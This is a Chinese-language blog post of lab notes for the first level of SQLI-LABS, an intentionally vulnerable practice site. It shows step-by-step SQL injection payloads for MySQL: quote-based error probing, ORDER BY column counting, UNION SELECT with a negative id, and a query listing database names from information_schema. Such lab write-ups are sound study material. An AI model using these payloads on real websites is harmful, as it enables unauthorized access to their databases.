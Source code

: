 ```yaml
---
layout: post
title: "SQLI-LABS 闯关笔记"
date: 2019-4-13 20:49:43
author: co0ontty
categories: CTF WEB MYSQL ALL
tags: CTF WEB MYSQL ALL 
describe: SQLI-LABS 闯关笔记 
---
```

## Less-1
```php
?id=1'
```
报错：  
```php
 near ''1'' LIMIT 0,1' at line 1
```
推断查询语句为：  
```php
$sql="SELECT * FROM users WHERE id='$id' LIMIT 0,1";
```
构造注入语句：
用单引号闭合id='的前单引号
用--+ 闭合id=''的后单引号
```php
?id=1'order by 1 --+ 
$sql="SELECT * FROM users WHERE id='1'order by 1 --+ ' LIMIT 0,1";
```
查看有多少字段，当输入到4的时候报错，说明存在3个字段  
```php
?id=1'order by 4 --+
```
联合查询union 
```php
?id=1' union select 1,2,3 --+
```
正常显示，猜测函数mysql_fetch_array只被调用了一次，而mysql_fetch_array() 函数从结果集中取得一行作为关联数组，即只显示一行数据。  
那么我们只要让第一行查询的结果是空集（即union左边的select子句查询结果为空），那么我们union右边的查询结果自然就成为了第一行，就打印在网页上了，这个id他一般传的是数字，而且一般都是从1开始自增的，我们可以把id值设为非正数（负数或0），浮点数，字符型或字符串，即设置为数据库中查询不到的id值。
```php
?id=-1' union select 1,2,3 --+
```
查询数据库:  
```php
?id=-1' union select 1,2, (select group_concat(schema_name) from information_schema.schemata) -- +
```  